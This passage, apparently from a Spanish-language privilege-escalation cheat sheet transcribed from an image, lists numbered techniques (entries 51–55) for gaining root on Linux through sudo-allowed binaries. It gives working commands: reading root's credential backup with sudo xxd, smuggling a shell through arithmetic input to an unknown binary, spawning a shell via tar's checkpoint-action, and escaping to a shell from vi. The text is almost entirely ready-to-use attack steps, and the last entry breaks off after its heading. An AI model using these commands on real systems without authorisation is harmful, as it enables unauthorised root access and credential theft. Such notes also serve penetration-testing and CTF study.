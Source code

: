 listo somos root

-------------------------------------------------------------------------------

51.-	/usr/bin/xxd

Tenemos que buscar un archivo que sea o pertenezca a root para poder visualizar.

ejemplo:

data.bak que está dentro del directorio root

sudo /usr/bin/xxd /root/data.bak

me muestra el contenido de data.bak, en este caso tiene las credenciales de root.

su root, escribimos la contraseña y listo somos root.

-------------------------------------------------------------------------------

52.-	Siempre que tengamos un binario y no esté en gtfobinds lo ejecutamos para ver que hace

ejemplo :

ejecutando sudo -l

(ALL) NOPASSWD: /bin/cube

probamos:

sudo /bin/cube

y supongamos que nos permita intruducir numeros:

introducimos:

a[$(/bin/sh >&2)]+666

y listo somos root

-------------------------------------------------------------------------------

53.-	/bin/tar

(ALL) NOPASSWD: /bin/tar

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

-------------------------------------------------------------------------------

54.-	/bin/vi

/bin/vi /etc/postgresql/11/main/pg_hba.conf 

hacemos sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf 

presionamos " : "

escribimos shell presionamos enter y somos root

-------------------------------------------------------------------------------

55.-	/usr/bin/multitail
